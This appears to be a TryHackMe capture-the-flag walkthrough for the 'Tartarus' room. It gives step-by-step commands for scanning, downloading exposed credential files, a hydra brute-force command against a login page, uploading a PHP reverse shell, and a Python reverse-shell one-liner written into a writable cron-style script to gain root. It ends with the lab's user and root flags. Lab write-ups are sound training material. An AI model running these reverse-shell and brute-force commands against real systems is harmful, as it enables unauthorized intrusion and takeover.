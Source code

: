 Room: Tartarus
Link: https://tryhackme.com/room/tartaraus
TARGET IP: 10.10.13.146
SCANNING

  NMAP SCAN RESULTS:
     21/tcp open  ftp     vsftpd 3.0.3
     22/tcp open  ssh     OpenSSH 7.2p2 
     80/tcp open  http    Apache httpd 2.4.18

ENUMERATION

 ftp anonymous login is allowed.
   

  go to ... and then again ...
  

  we get /sUp3r-s3cr3t directory 

 
Go to robots.txt 
  User-Agent: *
  Disallow : /admin-dir

  I told d4rckh we should hide our things deep.
Go to /admin-dir

  Download the files using :
  wget http://10.10.13.146/admin-dir/credentials.txt
  wget http://10.10.13.146/admin-dir/userid
  
  u will get to files
  user id and credentials.txt
  
 There is a login page and we have the userid and credentials.txt file. We can try and bruteforce the login page via hydra.

  use hydra bruteforce /sUp3r-s3cr3t
   
    hydra -L userid -P credentials.txt 10.10.127.236 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect"

     HYDRA IMAGE

    After logging in we get into home.php where we can upload files. Upload the script for reverse shell here.

    Start the listener on your machine

    Uploading the reverse shell php script on the page 
    Download the script from here:

    http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz

we need to find the uploads directory to run our script
Now we run the directory scan 
 
 So we find the images directory with dirb and here is the upload folder open it and run the script.
 Now we got our reverse shell.

  go to home/d4rckh 
  You got the user flag! 0f7dbb2243e692e3ad222bc4eff8521f
 Now let's hunt for the root flag
 Looking at the permissions of files cleanup.py we find it has write permissions too.
 Lets modify it for privileged reverse shell
    printf 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.18.39",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' > cleanup.py

    Also setup a listener port nc -lvnp 5555
    

    So we get our root shell

    And finally the root flag! 
    7e055812184a5fa5109d5db5c7eda7cd

    